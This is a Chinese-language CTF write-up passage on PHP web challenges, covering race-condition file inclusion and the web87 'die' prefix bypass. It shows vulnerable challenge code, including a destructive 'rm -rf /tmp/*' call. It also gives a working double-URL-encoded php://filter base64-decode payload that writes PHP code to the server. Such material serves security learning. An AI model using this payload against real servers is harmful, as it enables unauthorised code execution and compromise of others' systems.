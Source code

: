 同样条件竞争。

总结一下条件竞争

```php
linux本身删除

session_unset();
session_destroy();

system("rm -rf /tmp/*");

if(file_exists($file)){
        $content = file_get_contents($file);
        if(strpos($content, "<")>0){
            die("error");
        }
        include($file);
    }
```

## web87~不同变量死亡绕过

```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
} 
```

不同变量死亡绕过。

**`base64`就可以绕过/**

正好是`phpdie`正好是6个字节，加2为，4的倍数，正好可以bse64解码。

构造

```
php://filter/write=convert.base64-decode/resource=1.php
# url 两次编码之后
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%32%65%25%37%30%25%36%38%25%37%30

# post传参  <?php phpinfo();?> 前面加 aa
content=aaPD9waHAgcGhwaW5mbygpOz8+
```
